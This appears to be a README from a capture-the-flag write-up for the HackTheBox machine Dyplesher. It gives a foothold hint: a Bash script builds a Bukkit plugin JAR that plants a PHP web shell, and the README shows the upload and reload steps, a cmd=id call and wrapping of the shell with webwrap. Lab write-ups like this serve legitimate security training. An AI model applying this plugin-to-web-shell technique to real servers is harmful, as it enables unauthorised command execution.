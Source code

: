 # HTB-Dyplesher :alien:
# Warning message
**This is _not_ a complete write-up for the Dyplesher (10.10.10.190), box always active (27-09-2020), just a small nudge for the foothold part.**

**I developed this Bash script and use these files because I didn't want to depend/use on a heavy Integrated Development Environment (IDE).**
# Description
Create a Bukkit plugin without using an IDE. This is a simple build script written in Bash to create your Java archive data (JAR) from a Linux platform.

The JAR file will create a PHP web shell.

I used it on the box Dyplesher from HackTheBox platform to obtain the first "pseudo" terminal on the box.

(source: https://bukkit.org/threads/creating-plugin-without-an-ide.136603/page-2)
# Usage/Installation
Unzip the zip file and execute the Bash script:
```
git clone https://github.com/choupit0/HTB-Dyplesher.git
cd HTB-Dyplesher
unzip payload.zip
cd payload/
./Compile.sh
```
# Logs

```
root@HTB:~# git clone https://github.com/choupit0/HTB-Dyplesher.git
Cloning into 'HTB-Dyplesher'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (6/6), 17.05 MiB | 4.38 MiB/s, done.
```

```
root@HTB:~# cd HTB-Dyplesher/
root@HTB:~/HTB-Dyplesher# unzip payload.zip
Archive:  payload.zip
   creating: payload/
   creating: payload/htb/
   creating: payload/htb/dyplesher/
   creating: payload/htb/dyplesher/plugin/
  inflating: payload/htb/dyplesher/plugin/CreateFile.java
   creating: payload/lib/
  inflating: payload/lib/spigot-1.8.jar
   creating: payload/bin/
   creating: payload/bin/htb/
   creating: payload/bin/htb/dyplesher/
   creating: payload/bin/htb/dyplesher/plugin/
  inflating: payload/Compile.sh
   creating: payload/src/
  inflating: payload/src/plugin.yml
```

```
root@HTB:~/HTB-Dyplesher# tree
.
├── payload
│   ├── bin
│   │   └── htb
│   │       └── dyplesher
│   │           └── plugin
│   ├── Compile.sh
│   ├── htb
│   │   └── dyplesher
│   │       └── plugin
│   │           └── CreateFile.java
│   ├── lib
│   │   └── spigot-1.8.jar
│   └── src
│       └── plugin.yml
├── payload.zip
└── README.md

10 directories, 6 files
```

```
root@HTB:~/HTB-Dyplesher# cd payload/
root@HTB:~/HTB-Dyplesher/payload# ./Compile.sh
added manifest
adding: htb/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/plugin/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/plugin/CreateFile.class(in = 1410) (out= 847)(deflated 39%)
adding: plugin.yml(in = 187) (out= 146)(deflated 21%)
```

Our JAR file named "**createfile.jar**" has been created:
```
root@HTB:~/HTB-Dyplesher/payload# tree
.
├── bin
│   ├── htb
│   │   └── dyplesher
│   │       └── plugin
│   │           └── CreateFile.class
│   └── plugin.yml
├── Compile.sh
├── createfile.jar
├── htb
│   └── dyplesher
│       └── plugin
│           └── CreateFile.java
├── lib
│   └── spigot-1.8.jar
└── src
    └── plugin.yml

9 directories, 7 files
```
# Obtaining a "pseudo" shell
Put in your hosts file: dyplesher.htb + [subdomain].dyplesher.htb = 10.10.10.190

Once you have you JAR file, add the plugin and reload it on the web interface:

http://dyplesher.htb/home/add
http://dyplesher.htb/home/reload

Then, check if you can launch a PHP command:

http://subdomain.dyplesher.htb/batman.php?cmd=id

uid=1001([user]) gid=1001([user]) groups=1001([user]),122([group])

Finally, install this great tool:

https://github.com/mxrch/webwrap

With your Web shell you will be able to simulate a terminal like this:

```
root@HTB:~/HTB/Dyplesher/webwrap# ./webwrap http://subdomain.dyplesher.htb/batman.php?cmd=WRAP

[user]@dyplesher:/var/www/[subdomain]$ ls
README.md
batman.php
index.php
```

I let you imagine the rest, no too many spoilers here ;)
